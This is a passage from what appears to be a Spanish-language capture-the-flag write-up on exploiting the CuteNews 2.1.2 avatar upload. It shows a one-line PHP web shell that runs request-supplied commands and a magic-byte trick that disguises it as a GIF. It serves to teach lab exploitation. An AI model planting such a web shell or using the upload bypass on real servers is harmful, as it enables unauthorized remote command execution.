Buscando por internet existen varios exploits que se aprovechan de una opción que nos permite subir un avatar (imagen) a nuestro perfil para ejecutar comandos en el sistema. Por lo visto el gestor se guía por los [magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) para validar el tipo de archivo. Así que si subimos un archivo `.php` así sin más, no nos lo va a dejar subir, pero si al archivo `.php` le agregamos al inicio la cadena `GIF 8;`, ahora interpretara que el tipo de archivo es un `GIF` (:

* [Me guie de este artículo, el cual explica detalladamente cada paso](https://musyokaian.medium.com/cutenews-2-1-2-remote-code-execution-vulnerability-450f29673194).

...

## Explotación [#](#explotacion) {#explotacion}

En el dashboard damos clic en `Personal option` y llegamos acá:

![206page80_cutenews_hereupavatar](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/passage/206page80_cutenews_hereupavatar.png)

Creamos archivo malicioso:

```bash
–» cat ejeje.php 
<?php $command=shell_exec($_REQUEST['xmd']); echo $command; ?>
–» file ejeje.php 
ejeje.php: PHP script, ASCII text
```

Modificamos los `magic bytes`:

```bash
–» cat ejeje.php 
GIF8;
<?php $command=shell_exec($_REQUEST['xmd']); echo $command; ?>
–» file ejeje.php 
ejeje.php: GIF image data 16188 x 26736
```
